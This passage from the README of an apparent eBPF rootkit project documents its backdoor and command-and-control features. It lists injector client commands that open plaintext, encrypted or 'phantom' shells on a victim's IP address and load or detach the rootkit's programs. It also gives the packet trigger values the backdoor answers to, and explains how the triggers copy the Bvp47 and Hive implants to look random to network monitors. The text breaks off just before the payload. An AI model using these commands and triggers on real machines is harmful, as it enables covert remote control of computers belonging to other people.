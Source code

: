 <img src="docs/images/lib_injection-s5.png" float="left">



## Backdoor and C2
The backdoor works out of the box without any configuration needed. The backdoor can be controlled remotely using the rootkit client program:

| CLIENT ARGUMENTS | ACTION DESCRIPTION |
| ------------- | ------------- |
| ./injector -c \<Victim IP\> | Spawns a plaintext pseudo-shell by using the execution hijacking module |
| ./injector -e \<Victim IP\> | Spawns an encrypted pseudo-shell by commanding the backdoor with a pattern-based trigger |
./injector -s \<Victim IP\> | Spawns an encrypted pseudo-shell by commanding the backdoor with a multi-packet trigger (of both types) |
./injector -p \<Victim IP\> | Spawns a phantom shell by commanding the backdoor with a pattern-based trigger |
./injector -a \<Victim IP\> | Orders the rootkit to activate all eBPF programs |
./injector -u \<Victim IP\> | Orders the rootkit to detach all of its eBPF programs |
./injector -S \<Victim IP\> | Showcases how the backdoor can hide a message from the kernel (Simple PoC) |
| ./injector -h | Displays help |

### Backdoor triggers

Actions are sent to the backdoor using backdoor triggers, which indicate the backdoor the action to execute depending on the value of the attribute **K3**:

| K3 VALUE | ACTION |
| ------------- | ------------- |
| 0x1F29 | Request to start an encrypted pseudo-shell connection |
| 0x4E14 | Request to start a phantom shell connection |
| 0x1D25 | Request to load and attach all rootkit eBPF programs |
| 0x1D24 | Request to detach all rootkit eBPF programs (except the backdoor’s) |


#### Pattern-based trigger
This trigger hides the command and client information so that it can be recognized by the backdoor, but at the same time seems random enough for an external network supervisor. It is based on the trigger used by the NSA rootkit [Bvp47](https://www.pangulab.cn/files/The_Bvp47_a_top-tier_backdoor_of_us_nsa_equation_group.en.pdf).

<img src="docs/images/packet_examples_bvp47_trigger.png" float="left">

#### Multi-packet trigger
This trigger consists of multiple TCP packets on which the backdoor payload is hidden in the packet headers. This is based on the [Hive](https://wikileaks.org/vault7/document/hive-DevelopersGuide/hive-DevelopersGuide.pdf) implant leaked by WikiLeaks. The following payload is used:
